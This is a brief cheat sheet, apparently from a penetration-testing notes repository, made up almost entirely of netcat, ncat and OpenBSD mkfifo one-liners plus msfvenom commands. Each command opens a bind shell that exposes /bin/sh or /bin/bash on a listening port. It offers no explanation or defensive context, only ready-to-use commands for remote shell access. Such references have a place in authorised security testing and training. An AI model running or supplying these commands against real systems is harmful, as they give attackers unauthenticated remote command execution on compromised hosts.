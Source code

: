 # Netcat

## 01 - One-liners

### 1.1 - Traditional GNU Method

```
$ nc -lnvp <PORT> -e /bin/sh

$ nc -lnvp <PORT> -e /bin/bash
```

### 1.2 - Ncat

TCP method.

```
$ ncat -lnvp <PORT> -e /bin/bash
```

UDP method.

```
$ ncat -lnuvp <PORT> -e /bin/bash
```

### 1.2 - OpenBSD Method

```
$ mkfifo /tmp/f; (nc -lp <PORT> ||nc -l <PORT>)0</tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

$ mkfifo /tmp/f; (nc -lp <PORT> ||nc -l <PORT>)0</tmp/f | /bin/bash >/tmp/f 2>&1; rm /tmp/f
```

## 02 - Generate via `msfvenom`

### 2.1 - OpenBSD Method

```
$ msfvenom -p cmd/unix/bind_netcat lport=<PORT>
```

### 2.2 - Traditional GNU Method

```
$ msfvenom -p cmd/unix/bind_netcat_gaping lport=<PORT>

$ msfvenom -p cmd/unix/bind_netcat_gaping_ipv6 lport=<PORT>

$ msfvenom -p cmd/unix/pingback_bind lport=<PORT>
```